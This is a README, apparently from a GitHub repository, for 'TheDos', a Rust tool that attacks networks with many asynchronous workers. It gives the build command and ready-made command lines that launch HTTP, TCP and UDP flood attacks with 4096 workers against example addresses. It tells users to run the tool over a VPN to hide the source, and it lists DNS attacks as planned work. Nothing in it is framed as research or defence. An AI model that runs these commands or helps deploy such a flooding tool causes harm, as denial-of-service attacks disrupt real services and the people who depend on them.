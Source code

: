 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## ☠ TheDos

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default workers are 4096

> build using: ```cargo build --release```

* start http attack with 4096 workers: ```./thedos --http-addr http://example.app --workers 4096```

* start tcp attack with 4096 workers: ```./thedos --tcp-addr 93.184.216.34:24535 --workers 4096```

* start udp attack with 4096 workers: ```./thedos --udp-addr 93.184.216.34:24535 --workers 4096```

## 🏗️ WIP

* udp attack

* dns attack